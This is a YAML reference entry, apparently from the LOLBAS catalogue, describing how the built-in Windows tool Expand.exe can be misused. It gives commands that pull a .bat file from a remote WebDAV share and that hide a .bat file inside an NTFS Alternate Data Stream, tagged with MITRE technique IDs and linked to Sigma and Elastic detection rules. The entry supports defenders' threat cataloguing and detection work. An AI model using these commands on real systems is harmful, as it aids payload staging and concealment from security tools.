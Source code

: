 ```yaml
---
Name: Expand.exe
Description: Binary that expands one or more compressed files
Author: 'Oddvar Moe'
Created: 2018-05-25
Commands:
  - Command: expand \\webdav\folder\file.bat c:\ADS\file.bat
    Description: Copies source file to destination.
    Usecase: Use to copies the source file to the destination file
    Category: Download
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
  - Command: expand c:\ADS\file1.bat c:\ADS\file2.bat
    Description: Copies source file to destination.
    Usecase: Copies files from A to B
    Category: Copy
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
  - Command: expand \\webdav\folder\file.bat c:\ADS\file.txt:file.bat
    Description: Copies source file to destination Alternate Data Stream (ADS)
    Usecase: Copies files from A to B
    Category: ADS
    Privileges: User
    MitreID: T1564.004
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
Full_Path:
  - Path: C:\Windows\System32\Expand.exe
  - Path: C:\Windows\SysWOW64\Expand.exe
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/c04bef2fbbe8beff6c7620d5d7ea6872dbe7acba/rules/windows/process_creation/proc_creation_win_expand_cabinet_files.yml
  - Elastic: https://github.com/elastic/detection-rules/blob/12577f7380f324fcee06dab3218582f4a11833e7/rules/windows/defense_evasion_misc_lolbin_connecting_to_the_internet.toml
Resources:
  - Link: https://twitter.com/infosecn1nja/status/986628482858807297
  - Link: https://twitter.com/Oddvarmoe/status/986709068759949319
Acknowledgement:
  - Person: Rahmat Nurfauzi
    Handle: '@infosecn1nja'
  - Person: Oddvar Moe
    Handle: '@oddvarmoe'
---
```

